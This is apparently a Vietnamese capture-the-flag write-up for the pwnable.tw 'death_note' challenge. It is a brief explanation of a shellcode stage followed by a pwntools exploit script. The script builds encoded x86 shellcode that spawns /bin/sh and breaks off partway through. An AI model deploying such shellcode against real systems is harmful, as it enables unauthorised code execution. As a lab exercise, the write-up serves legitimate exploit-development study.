 giải thích thêm stage 5 trên shellcode:

- trước đó:

![image](https://github.com/gookoosss/CTF/assets/128712571/f8f6547e-4d86-46d1-8608-974550908114)


- sau đó:

![image](https://github.com/gookoosss/CTF/assets/128712571/eca8525d-54a3-4542-aa7e-bd0a68b8e8f4)


**cuối cùng ta lấy shell và có flag thôi**

## script 

```python 

#!/usr/bin/env python3

from pwn import *

exe = ELF("./death_note")
# libc = ELF("./libc6_2.35-0ubuntu3.1_amd64.so")
# ld = ELF("./ld-2.35.so")
# p = remote("chall.pwnable.tw", 10201)
context.binary = exe

p = process([exe.path])
 
gdb.attach(p, gdbscript = '''
b*add_note+33
b*add_note+132
b*del_note+76
c           
''')
           
input()

shellcode = asm(
    '''
    push eax
    pop ebp
    
    push edx
    push 0x68732f2f
    push 0x6e69622f
    push esp
    pop ebx

    push 0x30
    pop eax
    xor al, 0x30
    dec eax
    xor ax, 0x5555
    xor ax, 0x2a67
    push eax 
    pop edi

    push 0x30
    pop eax
    xor al, 0x30

    push eax
    pop ecx
```